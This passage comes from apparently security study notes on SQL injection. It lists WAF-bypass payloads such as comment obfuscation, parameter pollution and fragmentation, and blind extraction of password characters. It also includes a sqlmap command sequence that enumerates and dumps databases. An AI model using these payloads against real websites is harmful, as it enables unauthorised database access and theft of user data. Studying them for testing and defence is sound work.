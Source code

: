 | Case Variation | `select * from users`  | `SeLeCt * FrOM UsErs` |
| Null byte | `UNION SELECT..` | `%00' UNION SELECT..` |
| Declare Variables | `UNION Select Password` | `; declare @sqlvar nvarchar(70); set @myVAR = N'UNI' + N'ON' + N' SELECT' + N'Password'); EXEC(@sqlvar)` |

### OWASP categories

- [SQL injection bypassing WAF | OWASP](https://owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF)
- **Normalization**
  - Obfuscating with e.g. comments
  - E.g. WAF blocks `/?id=1+union+select+1,2,3/*`
    - Attacker injects: `/?id=1+un/**/ion+sel/**/ect+1,2,3--`
    - Request passes WAF, SQL becomes `SELECT * from table where id =1 union select 1,2,3--`
- **HTTP Parameter Pollution (HPP)**
  - Injects delimiting characters into query strings
  - E.g. WAF blocks `/?id=1+union+select+1,2,3/*`
    - Attacker injects: `/?id=1&id=+&id=union=&id=+select+&1,2,3`
    - Test e.g. [google.com/search?q=hello&q=world](https://www.google.com/search?q=hello&q=world)
- **HTTP Parameter Fragmentation (HPF)**
  - Exploits SQL is built using more than parameter in backend
    - `Query("select * from table where a=".$_GET['a']." and b=".$_GET['b']);`
  - E.g. WAF blocks `/?a=1+union+select+1,2/*`
    - Attacker injects: `/?a=1+union/*&b=*/select+1,2`
- **Blind SQL Injection**
  - Replacing WAF signatures with their synonyms
  - E.g. WAF blocks `/?id=1+OR+0x50=0x50`
    - Attacker injects `/?id=1+and+ascii(lower(mid((select+pwd+from+users+limit+1,1),1,1) ))=74`
- **Signature bypass**
  - E.g. WAF blocks is `/?id=1+OR+1=1`
    - Attacker injects `/?id=1+OR+0x50=0x50`

## SQL injection tools

- **[`sqlmap`](http://sqlmap.org/)**
  - Automatic SQL injection and database takeover tool
  - Requires session that can be retrieved through e.g. running [Burp Suite](https://portswigger.net/burp) as proxy.
  - Run e.g. `sqlmap -u https://cloudarchitecture.io/?id=3&Submit=Submit --cookie 'PHPSESSID=63j6; security:low'`
    - Outputs e.g.
      - `GET parameter id appears to be MySQL >= 5.0.12 AND time-based blind injectable`
      - `GET parameter id is 'Generic UNION query (NULL) - 1 to 20 columns' injectable`
    - `--dbs` parameter gets database names e.g. `mysql, phpmyadmin...`
    - `-D <database-name> --tables` parameters lists tables from given tabase name..
    - `-T <table-name> --columns` gives column names
    - `-C <comma-separated-column-names> --dump` to get columns
  - Can also crack hashes (not as fast as `hashcat`)
- [jSQL Injection](https://github.com/ron190/jsql-injection)
- Older tools:
  - [SQL Power Injector](http://www.sqlpowerinjector.com/)
  - [The Mole](https://github.com/tiankonguse/themole)
  - [OWASP SQLiX](https://wiki.owasp.org/index.php/Category:OWASP_SQLiX_Project) tool
- Mobile tools
  - [sqlmapchik](https://github.com/muodov/sqlmapchik) for Android - GUI for sqlmap
  - [Andro Hackbar](https://andro-hackbar.en.aptoide.com/app) for Android
- See also [SQL injection detection tools](#sql-injection-detection-tools)

